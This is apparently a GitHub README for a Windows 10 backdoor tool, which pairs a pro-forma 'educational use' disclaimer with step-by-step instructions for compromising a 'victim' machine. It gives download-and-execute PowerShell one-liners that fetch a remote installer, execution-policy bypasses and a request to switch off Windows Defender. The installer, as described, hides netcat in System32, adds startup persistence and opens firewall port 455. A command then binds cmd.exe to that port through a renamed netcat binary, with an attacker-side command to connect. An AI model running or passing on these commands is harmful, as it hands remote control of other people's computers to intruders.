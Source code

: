 # PermanentRevershell-win10backdoor
 "PermanentRevershell: A potent Windows 10 backdoor providing persistent access and full system control. Explore its capabilities today!"
![image](https://github.com/alariordas/PermanentRevershell-win10backdoor/assets/80034759/82e62466-3dff-4a75-b90d-51602e27e753)

**Disclaimer: Use Responsibly**

This tool is provided for educational and legitimate security testing purposes only. The author (insert your name or username) does not condone or endorse any unauthorized or malicious use of this tool. Any actions and activities carried out using this tool are the sole responsibility of the user.

By downloading, using, or distributing this tool, you acknowledge and agree to use it in compliance with all applicable laws and ethical guidelines. Improper or unlawful use of this tool is strictly prohibited, and the author will not be held responsible for any consequences arising from such actions.

Please exercise caution and always obtain proper authorization before using this tool on systems or networks that you do not own or have explicit permission to test.

Use this tool responsibly and for legitimate purposes only.

**Note:** It is important to be aware of and comply with the laws and regulations governing cybersecurity and ethical hacking activities in your jurisdiction. Unauthorized access or malicious activities may result in legal consequences.





# Netcat Auto-Installer for Windows

This script automates the installation of Netcat on Windows systems. Netcat is a versatile networking utility that can be used for various purposes, including network testing and security assessments. Please use this script responsibly and only on systems and networks for which you have proper authorization.

## Features

- Downloads and extracts the Netcat ZIP file to a temporary location.
- Moves the `nc.exe` binary to the `System32` directory, enhancing its stealth.
- Sets up Netcat to run at system startup for persistent access.
- Enables a firewall rule to allow incoming connections on port 455.
- Removes temporary files after successful installation

## Prerequisites

Before using this script, ensure that you have:

- Windows operating system.
- Administrator privileges.
- Windows Defender desactivated during the execution of the script
- PowerShell enabled for script execution. You can do this by running:

```powershell
Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force
```
Or Press `Windows + R` and type:
```powershell
powershell -nop -ep bypass -c IEX(IWR Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force -UseBasicParsing);
````

## Usage

### Automated Installation

1. Press `Windows + R` to open the Run dialog.
2. Type ```powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PermanentRevershell-win10backdoor/main/ncinstaller.ps1 -UseBasicParsing);``` and press `Ctrl + Enter` to open PowerShell with Administrator privileges.

```powershell
powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PersistentReverseShell-Win10Backdoor/main/ncinstaller.ps1 -UseBasicParsing);
```

The script will be executed automatically. However, please note that it may not work on all systems. If you encounter issues, you may need to adapt the script to the target system's properties.
This will start the process if in the victim side it's not working 
```powershell
powershell -ExecutionPolicy Bypass -Command "Start-Process 'C:\Windows\System32\msnmsgr.exe' -ArgumentList '-Ldp 455 -e cmd.exe' -NoNewWindow"
```

### In the Attacker side
Execute this command in the terminal, replace `explample.com` with the victim ip or domain
```cmd
netcat -z -v example.com 455
```
